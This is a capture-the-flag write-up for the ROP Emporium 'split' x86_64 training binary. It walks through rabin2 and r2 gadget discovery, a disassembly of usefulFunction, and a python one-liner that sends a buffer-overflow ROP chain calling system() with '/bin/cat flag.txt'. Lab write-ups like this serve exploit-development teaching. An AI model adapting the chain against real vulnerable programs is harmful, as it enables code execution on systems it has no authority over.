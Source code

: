 # ROP Emporium - 02 split x86_64

## ELF Binary Info
> $ `rabin2 -I ./split`  
```
arch     x86
baddr    0x400000
binsz    6805
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)

## Get ROP Gadgets
- "/bin/cat flag.txt" string is included in binary, so utilise this by putting its address on stack
> $ `rabin2 -z ./split | grep /bin/cat`  
```
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

- Will need to pop the above address from stack into rdi register, so look for `pop rdi` gadget
> $ `r2 -A ./split`  
> [0x004005b0]> `/R pop rdi`  
```
  0x004007c3                 5f  pop rdi
  0x004007c4                 c3  ret
```

- With rdi pointing to "/bin/cat flag.txt", return to the system() function called by usefulFunction
> $ `objdump -M intel --disassemble=usefulFunction ./split`  
```
[...]
0000000000400742 <usefulFunction>:
  400742:	55                   	push   rbp
  400743:	48 89 e5             	mov    rbp,rsp
  400746:	bf 4a 08 40 00       	mov    edi,0x40084a
  40074b:	e8 10 fe ff ff       	call   400560 <system@plt>
  400750:	90                   	nop
  400751:	5d                   	pop    rbp
  400752:	c3                   	ret    
[...]
```

## Get Flag
- payload = padding + pop_rdi_addr + bin_cat_flag + call_system_addr  
> $ `python -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00\x00\x00\x00\x00' + b'\x60\x10\x60\x00\x00\x00\x00\x00' +b'\x4b\x07\x40\x00\x00\x00\x00\x00')" | ./split`  
```
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```


